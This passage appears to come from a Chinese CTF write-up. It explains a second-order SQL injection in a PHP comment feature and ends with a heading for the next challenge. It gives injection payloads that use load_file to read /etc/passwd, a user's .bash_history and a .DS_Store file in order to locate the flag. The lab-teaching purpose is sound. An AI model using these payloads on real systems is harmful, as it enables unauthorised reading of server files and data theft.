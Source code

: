 ```php
}
?>
```

后台对输入的参数通过addslashes()对预定义字符进行转义，加上\ ，`但是放到数据库后会把转义符 \ 去掉（进入数据库后是没有反斜杠的），并存入数据库中`

而且取出时直接进行了拼接，没有进行addslanshes()
```php
$category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
```

那么可以这样构造 `$category = 0',content=database(),/*`  `$content = */#`
```php
insert into comment
            set category = '0',content=database(),/*,
                content = '*/#',
                bo_id = '$bo_id'
```

这样造成了二次注入

盲区：

读取/etc/passwd文件

```
a',content=(select (load_file('/etc/passwd'))),/*
```

![](https://img-blog.csdnimg.cn/539efcf4678e48eab4f4608ae7d3aa7c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

看到有一个www的用户
```
www:x:500:500:www:/home/www:/bin/bash
```

![](https://img-blog.csdnimg.cn/4547e8e629904c54845fd1a166a84484.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)
每个在系统中拥有账号的用户在他的目录下都有一个 `.bash_history` 文件，保存了当前用户使用过的历史命令，方便查找。

那就看一下历史吧
```
a',content=(select (load_file('/home/www/.bash_history'))),/*
```

![](https://img-blog.csdnimg.cn/df6b6aa81c3c48f3865ad940451790a4.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

去读取在 `/tmp` 目录下已经解压但是没被删除的 `/DS_Store` 文件，十六进制读一下
```
category=a',content=hex((select  load_file('/tmp/html/.DS_Store'))),/*
```
发现flag_8946e1ff1ee3e40f.php，再次读取即可

---
# [RCTF2015]EasySQL
- SQL正则
